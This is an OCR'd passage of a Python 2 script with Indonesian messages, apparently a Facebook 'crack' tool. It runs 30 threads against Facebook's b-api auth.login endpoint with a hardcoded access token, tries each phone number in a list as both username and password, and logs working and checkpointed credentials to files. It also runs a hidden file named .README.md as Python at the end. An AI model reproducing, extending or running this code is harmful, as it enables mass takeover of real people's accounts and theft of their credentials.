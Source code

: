 				

		

     
		 
		
	elif bch =="0":
		os.system('rm -rf login.txt')
		keluar()

	xxx = str(len(id))
	print ('[✓] Total Nomor: '+xxx)
	time.sleep(0.1)
	print ('\033[1;91m[✓]\033[1;94m Mohon Tunggu Proses Sedang Berjalan ...')
	time.sleep(0.1)
	print ('[!] Untuk Menghentikan Proses Tekan CTRL Lalu Tekan z')
	time.sleep(0.5)
	print 42*"\033[1;91m="
	
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			os.mkdir('save')
		except OSError:
			pass
		try:
			pass1 = user
			data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m[Successful]\033[1;95m ' + k + c + user + ' >>> ' + pass1+'\n'+"\n"
				okb = open('save/successfull.txt', 'a')
				okb.write(k+c+user+'>>>'+pass1+'\n')
				okb.close()
				oks.append(c+user+pass1)
			else:
				if 'www.facebook.com' in q['error_msg']:
					print '\033[1;93m[Checkpoint]\033[1;96m ' + k + c + user + ' >>> ' + pass1+'\n'
					cps = open('save/checkpoint.txt', 'a')
					cps.write(k+c+user+'>>>'+pass1+'\n')
					cps.close()
					cpb.append(c+user+pass1)

															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;91m="
	print '[✓]\033[1;93m Process Telah Selesai ...'
	print '[✓]\033[1;92m Total OK/\033[1;96mCP : '+str(len(oks))+'/'+str(len(cpb))
	print('[✓]\033[1;91m CP File Telah Disimpan : save/checkpoint.txt')
	raw_input('\n[Press Enter To Go Back]')
	os.system('python2 .README.md')

if __name__ == '__main__':
	login()
